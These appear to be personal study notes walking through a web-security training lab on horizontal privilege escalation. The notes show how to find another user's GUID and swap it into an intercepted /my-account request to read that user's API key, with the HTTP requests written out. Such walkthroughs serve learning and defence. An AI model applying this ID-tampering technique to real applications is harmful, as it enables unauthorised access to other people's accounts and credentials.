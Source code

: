 ![[Pasted image 20220514002057.png]]

### User ID controlled by request parameter, with unpredictable user IDs
```bash

# This lab has a horizontal privilege escalation vulnerability on the user account page, but identifies users with GUIDs.

# To solve the lab, find the GUID for carlos, then submit his API key as the solution.

# You can log in to your own account using the following credentials: wiener:peter 

Login to wiener:peter
Go to: "Home"
Search through the blogs and find the username "carlos" who created the "Hobbies" blog
Intercept is on
Click "carlos"
Send to repeater or take note of the "id"

GET /blogs?userId=a49108c2-b1c8-4126-95a5-67df0a5c5971 HTTP/1.1

Click "My account" or browse through the history until you find

GET /my-account?id=f56d2e64-7afe-44dc-92ca-595973ffa7d2 HTTP/1.1

With a response of:

'Your username is: wiener'

'Your API Key is: JM1fdP1QImFYurVRnrg6i9djNEp6MaAQ'

Send to repeater

Change the id of "wiener" to the id of "carlos"

GET /my-account?id=f56d2e64-7afe-44dc-92ca-595973ffa7d2 HTTP/1.1

To

GET /my-account?id=a49108c2-b1c8-4126-95a5-67df0a5c5971 HTTP/1.1

'Your username is: carlos'

'Your API Key is: PmfYjZp2YEte4IyRggSM5f0uqHFxccvY0'

```


![[Pasted image 20220514003253.png]]
